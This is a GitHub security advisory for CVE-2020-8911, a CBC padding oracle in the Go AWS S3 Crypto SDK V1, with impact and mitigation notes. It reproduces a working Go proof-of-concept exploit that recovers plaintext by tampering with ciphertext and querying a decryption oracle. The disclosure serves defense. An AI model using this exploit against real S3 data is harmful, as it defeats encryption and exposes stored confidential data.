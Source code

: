```yaml
---
title: ' AWS: CBC Padding oracle in the AWS S3 Crypto SDK for golang'
severity: Moderate
ghsa_id: GHSA-f5pg-7wfw-84q9
cve_id: CVE-2020-8911
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: V1
  patched_versions: V2
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK is impacted by an issue that can result in loss of confidentiality and message forgery. The attack requires write access to the bucket in question, and that the attacker has access to an endpoint that reveals decryption failures (without revealing the plaintext) and that when encrypting the CBC option was chosen as content cipher.

### Risk/Severity

The vulnerability pose insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

This advisory describes the plaintext revealing vulnerabilities in the golang AWS S3 Crypto SDK, with a similar issue in the non "strict" versions of C++ and Java S3 Crypto SDKs being present as well.

V1 of the S3 crypto SDK, allows users to encrypt files with AES-CBC, without computing a MAC on the data. Note that there is an alternative option of using AES-GCM, which is used in the examples of the documentation and not affected by this vulnerability, but by CVE-2020-8912.

This exposes a padding oracle vulnerability: If the attacker has write access to the S3 bucket and can observe whether or not an endpoint with access to the key can decrypt a file (without observing the file contents that the endpoint learns in the process), they can reconstruct the plaintext with (on average) `128*length(plaintext)` queries to the endpoint, by exploiting CBC's ability to manipulate the bytes of the next block and PKCS5 padding errors.

This issue is fixed in V2 of the API, by disabling encryption with CBC mode for new files. Old files, if they have been encrypted with CBC mode, remain vulnerable until they are reencrypted with AES-GCM.

### Mitigation

Using the version 2 of the S3 crypto SDK will not produce vulnerable files anymore. Old files remain vulnerable to this problem if they were originally encrypted with CBC mode.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository.

This particular issue is described in [padding_oracle_exploit.go](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/padding_oracle_exploit.go):

```golang
func PaddingOracleExploit(bucket string, key string, input *OnlineAttackInput) (string, error) {
	data, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	if alg := header.Get("X-Amz-Meta-X-Amz-Cek-Alg"); alg != "AES/CBC/PKCS5Padding" {
		return "", fmt.Errorf("Algorithm is %q, not CBC!", alg)
	}
	length, err := strconv.Atoi(header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Length"))
	padding := byte(len(data) - length)
	plaintext := make([]byte, length)
	for i := length - 1; i >= 0; i-- {
		newLength := 16 * (i/16 + 1)
		dataCopy := make([]byte, newLength)
		headerCopy := header.Clone()
		copy(dataCopy, data)
		// Set Padding
		newPadding := byte(newLength - i)
		for j := i + 1; j < newLength; j++ {
			var oldValue byte
			if j >= length {
				oldValue = padding
			} else {
				oldValue = plaintext[j]
			}
			dataCopy, headerCopy, err = xorData(oldValue^newPadding, j, dataCopy, headerCopy)
			if err != nil {
				return "", err
			}
		}
		// Guess
		for c := 0; c < 256; c++ {
			dataCopy, headerCopy, err := xorData(byte(c)^newPadding, i, dataCopy, headerCopy)
			input.S3Mock.PutObjectDirect(bucket, key+"guess", dataCopy, headerCopy)
			if input.Oracle(bucket, key+"guess") {
				plaintext[i] = byte(c)
				break
			}
			dataCopy, headerCopy, err = xorData(byte(c)^newPadding, i, dataCopy, headerCopy)
		}
	}
	return string(plaintext), nil
}
```